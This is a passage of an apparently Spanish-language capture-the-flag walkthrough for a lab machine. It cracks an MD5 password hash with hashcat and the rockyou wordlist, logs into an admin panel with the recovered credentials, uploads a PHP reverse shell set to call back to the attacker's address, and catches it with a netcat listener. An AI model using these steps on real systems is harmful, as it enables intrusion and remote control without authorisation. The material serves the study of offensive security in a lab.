 # Foothold
Desde el archivo SQL anterior, obtenemos el hash de una contraseña cifrado en MD5. Para descifrarla, usaremos Hashcat y guardaremos el hash en un archivo
```bash
echo "42f749ade7f9e195bf475f37a44cafcb" > pash
```
```bash
hashcat -m 0 pash /usr/share/wordlists/rockyou.txt
```
Resultado:
```bash
Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 2 secs

42f749ade7f9e195bf475f37a44cafcb:Password123              
                                                          
Session..........: hashcat
Status...........: Cracked
```
Ahora que hemos obtenido las credenciales de un usuario, podemos iniciar sesión en el login que está en http://10.10.252.24/content/as/
```bash
username: manager
password: Password123
```
Una vez iniciada la sesión, nos encontramos con un panel de administración. Una opción que podemos explorar es insertar una shell inversa a través de los anuncios (ads).
```bash
cp -r /usr/share/webshell/php/php-reverse-shell.php ~/
```
```bash
set_time_limit (0);
$VERSION = "1.0";
$ip = 'ip_tun0';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```
Una vez que hayamos subido el archivo, usamos el comando netcat para escuchar en el puerto que hayamos especificado en la shell
```bash
nc -lvnp 1234
```

Desde el navegador nos dirigmos a http://10.10.252.24/content/inc/ads/shell.php y obtendremos una shell en nuestra terminal
